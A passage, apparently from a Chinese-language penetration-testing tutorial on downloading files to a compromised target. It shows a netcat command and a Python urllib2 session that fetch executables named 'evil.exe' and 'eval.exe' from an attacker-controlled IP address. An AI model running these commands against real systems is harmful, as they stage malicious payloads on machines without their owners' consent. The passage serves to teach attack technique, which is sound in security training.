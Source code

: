 ##### **目标机执行**

```
nc  192.168.10.11 4444 >evil.exe
```

![nc1](Windows&Linux常见文件下载方法/nc1.png)



#### ***Python（Windows/Linux）：***

##### **Python是目前很受欢迎的主流脚本语言，当目标主机内安装了python时，我们可以在shell中使用python来实现远程文件下载：**



##### 进入交互环境：

```
Type "help", "copyright", "credits" or "license" for more information.
>>> import urllib2
>>> res = urllib2.urlopen('http://192.168.10.11/eval.exe')
>>> file= open('f.exe','w')
>>> file.write(res.read())
>>> file.close()
>>>
```
